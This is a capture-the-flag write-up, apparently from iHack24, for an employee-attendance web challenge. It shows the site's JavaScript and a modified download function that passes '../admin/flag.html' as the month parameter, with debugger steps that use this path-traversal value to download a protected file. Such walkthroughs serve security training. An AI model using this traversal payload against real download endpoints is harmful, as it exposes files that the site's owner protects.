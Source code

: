 # Question
Link: http://employee-attendance.ihack24.capturextheflag.io/

Credentials: 
```
employee01:password
```
# Writeup
1. Ok, in this website, our target is `/admin/flag.html`
2. There is a bunch of Javascript on the main website.
```js
async function fetchData(month) {
	const response = await fetch('/data/' + month);
	const data = await response.json();
	return data;
}

async function displayData() {
	const monthSelect = document.getElementById('month-select');
	const month = monthSelect.value;
	const tbody = document.getElementById('employee-table').querySelector('tbody');
	tbody.innerHTML = ''; 

	if (month) {
		const data = await fetchData(month);
		data.forEach(employee => {
			const row = document.createElement('tr');
			row.innerHTML = `
				<td>${employee.employee_name}</td>
				<td>${employee.employee_id}</td>
				<td>${employee.attendance.days_present}</td>
				<td>${employee.attendance.days_absent}</td>
				<td>${employee.status}</td>
			`;
			tbody.appendChild(row);
		});
	}
}

async function downloadJSON() {
	const monthSelect = document.getElementById('month-select');
	const month = monthSelect.value;
	if (month) {
		window.location.href = '/download?month=' + month;
	} else {
		alert("Please select a month to download the data.");
	}
}

function logout() {
	window.location.href = "/";
}

```
3. Hmm, can I make it download the file for me?
```js
async function downloadJSON() {
	const month = '../admin/flag.html';
	if (month) {
		window.location.href = '/download?month=' + month;
	} else {
		alert("Please select a month to download the data.");
	}
}

```
4. Ok, I need to go to the` Sources>login.html` and set a breakpoint at line 87. Click the left side.
5. Press the Download JSON button
6. Continue to line 89 
7. Change the value of month in the console to `../admin/flag.html`
8. Continue the debugger. It should download the file.
9. After that, extract the file and the flag is inside.